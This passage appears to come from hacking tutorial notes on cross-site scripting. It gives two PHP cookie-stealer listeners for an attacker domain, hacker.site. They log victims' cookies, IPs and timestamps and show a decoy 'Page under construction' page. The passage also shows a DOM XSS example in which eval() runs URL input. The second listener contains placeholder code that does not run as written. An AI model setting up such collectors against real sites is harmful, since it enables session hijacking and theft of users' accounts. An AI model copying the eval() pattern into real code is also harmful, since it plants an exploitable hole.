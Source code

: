 #### Techniques for cookie stealing

Let's suppose we have our PHP script C.php listening on our hacker.site domain. 

Example of C.php Simple Listerner:

```php
# Instruct the script to simply store the GET['cc'] content in a file
<?php
error_reporting(0); # Turn off all error reporting
$cookie= $_GET['cc']; # Request to log
$file= '_cc_.txt'; # The log file
$handle= fopen($file,"a"); # Open log file in append mode
fwrite($handle,$cookie."\n"); # Append the cookie
fclose($handle); # Append the cookie

echo '<h1>Page under construction</h1>'; # Trying to hide suspects.
```

Example of C.php Listerner recording hosts, time of logging, IP addresses:

```php
# Instruct the script to simply store the GET['cc'] content in a file
<?php
error_reporting(0); # Turn off all error reporting

function getVictimIP()= { ... } # Function that returns victim IP
function collect() {
$file= '_cc_.txt'; # The log file
$date=date("l dS of F Y h:i:s A");
$IP=getVictimIP();
$cookie= $_SERVER['QUERY_STRING'];

$log="[$date]\n\t> VictimIP: $IP\n\t> Cookies: $cookie\n\t> Extra info: $info\n";
$handle= fopen($file,"a"); # Open log file in append mode
fwrite($handle,$log."\n\b"); # Append the cookie
fclose($handle); # Append the cookie
}
collect();
echo '<h1>Page under construction</h1>'; # Trying to hide suspects.
```

Additionally we can use: [netcat](../netcat.md), [Beef](../beef.md),...


### 2. DOM based attack: incorrect use of eval()

In the following website we can see the code below:

![example of DOM XSS](../img/dom.png)


And in the source code we can pinpoint this script:

```html
<script>
	var statement = document.URL.split("statement=")[1];
	document.getElementById("result").innerHTML = eval(statement);
</script>
```
